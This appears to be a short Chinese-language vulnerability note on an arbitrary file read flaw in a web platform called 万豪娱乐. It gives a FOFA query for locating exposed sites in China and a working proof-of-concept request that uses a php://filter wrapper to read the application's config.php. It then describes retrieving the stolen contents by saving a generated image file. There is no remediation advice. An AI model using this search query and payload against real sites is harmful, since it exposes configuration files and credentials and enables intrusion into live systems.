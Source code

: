 # 万豪娱乐存在任意文件读取漏洞

万豪娱乐存在任意文件读取漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## fofa

```javascript
"Public/Js/Mobile" && country="CN"
```

![image-20240928131302737](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409281313798.png)

## poc

```javascript
/Home/game/getimg?url=php://filter/read=convert.base64-encode/resource=Application/Common/Conf/config.php&id=1993
```

**使用poc访问后，接着访问 /public/gamelist/1993.jpg 的图片，保存下来就是读取到的内容**

